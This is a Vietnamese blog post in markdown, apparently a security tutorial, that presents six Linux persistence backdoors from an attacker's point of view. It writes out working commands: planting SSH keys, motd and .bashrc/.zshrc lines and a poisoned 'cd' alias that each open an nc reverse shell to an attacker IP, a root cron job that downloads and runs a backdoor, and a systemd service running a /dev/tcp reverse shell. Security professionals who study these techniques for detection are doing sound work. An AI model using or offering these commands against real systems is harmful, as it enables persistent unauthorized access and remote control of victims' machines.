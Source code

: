 +++
title = "Linux backdoors"
description = ""
type = ["posts","post"]
tags = [
    "infosec",
    "linux",
]
date = "2021-06-28"
categories = [
    "infosec",
    "linux",
]
series = ["Linux"]
[ author ]
  name = "Quac Tran"
+++
Trong thực tế khi có quyền truy cập vào mục tiêu(SSH, VNC, interactive shell ...) thì việc để lại backdoor là một phần quan trọng để duy trì quyền truy cập vào hệ thống mục tiêu. Do đó, việc học một số kỹ thuật backdoor là điều cần thiết, không chỉ đối với những kẻ tấn công mà cả những người phòng thủ. Sau đây chúng ta sẽ tìm hiểu một số kĩ thuật backdoor thông dụng. Ở đây chúng ta chỉ thảo luận trong thế giới Linux!
### Backdoor là gì?
Backdoor là một đoạn mã ẩn, script hay chương trình đặt trên máy mục tiêu phục vụ cho mục đích truy cập dài hạn vào mục tiêu của kẻ tấn công,với điều đó bạn không phải khai thác cùng một hệ thống hai lần. Nó chỉ đơn giản là cung cấp cho bạn quyền truy cập nhanh hơn và tức thì vào hệ thống.
### 1. SSH Keys
SSH authorized_keys tập tin chứa một danh sách các ủy quyền người dùng / khóa công khai được phép đăng nhập vào một tài khoản cụ thể. Trong tệp này, những kẻ tấn công cũng có thể đặt các khóa công khai của chúng để tự cấp quyền và truy cập ngay vào hệ thống thông qua SSH.\
#### Victim
`ssh-keygen -t rsa`\
-> generate key pair\
`cat /$(whoami)/.ssh/id_rsa.pub > /$(whoami)/.ssh/authorized_keys`\
-> copy public key (id_rsa.pub) to authorized_keys
#### Attacker
Copy private key (id_rsa)\
`chmod 600 id_rsa`\
-> set permission \
`ssh -i id_rsa username@victim`\
-> ssh to victim\
![https://raw.githubusercontent.com/tranquac/Blog_Image/master/linux_backdoor/ssh-key.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/linux_backdoor/ssh-key.PNG)
### 2. SSH motd
motd (Tin nhắn trong ngày) là banner xuất hiện khi bạn đăng nhập vào máy bằng SSH. Đối với Ubuntu / Debian các tập lệnh motd có thể được tìm thấy tại /etc/update-motd.d. Theo mặc định, những người dùng khác không có quyền ghi trên thư mục đó.
`cd /etc/update-motd.d && echo -e '#!/bin/bash\nnc 192.168.66.105 4444 -e /bin/bash &' > 20-backdoor && chmod +x 20-backdoor`\
Lưu ý: & -> run command in background
![https://raw.githubusercontent.com/tranquac/Blog_Image/master/linux_backdoor/ssh-motd.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/linux_backdoor/ssh-motd.PNG)
### 3. User’s .bashrc — Interactive session
.bashrc là một trong những tập lệnh khởi động được sử dụng bởi Bourne shell bash (zsh là .zshrc). Nếu có người dùng sử dụng bashlàm trình bao đăng nhập của họ, thì tập lệnh sẽ được thực thi cho mỗi phiên tương tác mà họ khởi chạy.\
`cd && echo -e '#!/bin/bash\nnc 192.168.66.105 4444 -e /bin/bash &' >> .bashrc`\
`cd && echo -e '#!/bin/bash\nnc 192.168.66.105 4444 -e /bin/bash &' >> .zshrc`\
sẽ nhận được reverse shell khi người dùng sử dụng lệnh `bash` hay `su username`
![https://raw.githubusercontent.com/tranquac/Blog_Image/master/linux_backdoor/bashrc.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/linux_backdoor/bashrc.PNG)
### 4. User’s .bashrc — Aliases
Là một kẻ tấn công, chúng ta cũng có thể đặt backdoor trong bí danh của người dùng! Đây cũng là 1 phương pháp tôi rất thích.\
`alias cd='$(nc 192.168.66.105 4444 -e /bin/bash &); cd'`\
-> Chúng ta sẽ nhận được reverse shell mỗi khi người dùng sử dụng lệnh cd
![https://raw.githubusercontent.com/tranquac/Blog_Image/master/linux_backdoor/alias.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/linux_backdoor/alias.PNG)
Dưới đây là một số backdoor phức tạp khác sử dụng bí danh:
* [https://github.com/nisay759/sudo-backdoor](https://github.com/nisay759/sudo-backdoor)
* [https://gist.github.com/ahhh/1d4bf832c5a88cc75adb](https://gist.github.com/ahhh/1d4bf832c5a88cc75adb)
### 5. Cron jobs
Cron là một tính năng từ OS like Linux / UNIX có thể được sử dụng để thực hiện định kỳ một công việc hoặc nhiệm vụ cụ thể giống như Task Scheduler trong Windows.\
`echo '* * * * * root cd /tmp; wget 192.168.66.105:8000/backdoor && chmod +x backdoor && ./backdoor' > /etc/cron.d/backdoor`
![https://raw.githubusercontent.com/tranquac/Blog_Image/master/linux_backdoor/cron.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/linux_backdoor/cron.PNG)
### 6. Backdoor as a Service (BaaS)
Kẻ tấn công cũng có thể tạo một backdoor như một service (BaaS). Đây là một ví dụ về BaaS ( backdoor.service):
```bash
[Service]
Type=simple
User=root
ExecStart=/bin/bash -c "bash -i >& /dev/tcp/192.168.66.105/4444 0>&1"
[Install]
WantedBy=multi-user.target
```
Khi service được bắt đầu, nó khởi chạy một reverse shell cho kẻ tấn công.\
`cd /etc/systemd/system && systemctl start backdoor.service`\
Nó cũng có thể được kích hoạt khi enable.\
`cd /etc/systemd/system && systemctl enable backdoor.service`
![https://raw.githubusercontent.com/tranquac/Blog_Image/master/linux_backdoor/service.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/linux_backdoor/service.PNG)

